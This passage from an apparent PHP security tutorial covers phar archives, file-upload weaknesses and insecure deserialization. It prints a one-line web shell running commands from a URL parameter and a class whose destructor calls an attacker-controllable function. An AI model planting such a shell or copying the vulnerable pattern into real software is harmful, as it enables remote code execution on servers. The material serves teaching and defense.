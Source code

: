 In this code, stub is `<?php __HALT_COMPILER(); ?>`, manifest or Phar Metadata is $obj (new User class) and file contents is text from test.txt file. Now we can build it with a simple command:

`php -d phar.readonly=0 phar.php`

What is phar.readonly ? For security, this setting will allow us to create and modify using phar stream, by default this is enable: [phar.readonly option](https://www.php.net/manual/en/phar.configuration.php#:~:text=the%20configuration%20directives.-,phar.readonly%20bool,-This%20option%20disables)

### File upload vulnerability

File upload vulnerability or [CWE-434](https://cwe.mitre.org/data/definitions/434.html) is a common weakness in a web server. A user may upload unexpected or non-standard files, which can alter the server’s behavior and potentially lead to serious issues such as Remote Code Execution (RCE). POC:

A user can upload a simple shell if the server don't strictly filter it

```php
<?php
system($_GET["cmd"]);
?>
```

And we can run php file in apache server

![image](./images/image3.png)


### Insecure Deserialization

Insecure Deserialization or [CWE-502](https://cwe.mitre.org/data/definitions/502.html) covers insecure deserialization of untrusted data. Attackers can manipulate serialized objects to execute arbitrary code, especially using magic methods like __wakeup(), __destruct(), and __toString().

POC:

Imagine we have a simple class that will create a JSON file based on the $name argument passed to the class.

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

$a = new User('winky', 18);
?>
```